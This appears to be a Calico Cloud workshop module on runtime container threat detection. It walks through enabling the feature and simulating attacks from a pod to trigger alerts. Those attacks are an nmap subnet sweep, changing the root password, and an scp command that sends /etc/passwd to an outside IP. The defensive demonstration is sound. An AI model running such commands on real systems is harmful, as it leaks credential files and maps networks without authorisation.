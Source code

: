 # Module 6 - Runtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```

   Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   Optionally, you can also try the following;

   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events` again.

---

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](module-7-quarantine-kspm.md)  

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](../README.md)  
